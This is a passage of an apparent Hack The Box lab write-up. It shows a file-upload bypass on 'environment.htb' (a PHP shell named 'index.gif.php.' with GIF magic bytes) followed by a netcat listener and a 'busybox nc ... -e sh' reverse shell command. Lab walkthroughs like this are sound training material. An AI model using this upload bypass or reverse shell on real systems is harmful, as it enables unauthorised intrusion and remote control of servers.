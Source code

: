 From the image above:
1. Modify filename to `index.gif.php.`
2. Send a [PHP cmd payload](https://www.revshells.com/) with magic bytes in the start of the file to bypass GIF MIME type checking
3. Backend parses it as a gif and shows that my PHP cmd shell is at `http://environment.htb/storage/files/index.gif.php.`

![image](imgs/rce.png)

Now we have RCE on the target. So to get fully functional reverse shell we need:

## Getting Reverse Shell

1. In our terminal:
   ```bash
   rlwrap nc -lvnp 1337
   ```

2. On our uploaded PHP cmd shell send any reverse shell for linux system pointing to our IP:
   ```bash
   busybox nc 10.10.14.53 1337 -e sh
   ```

![image](imgs/revshell.png)
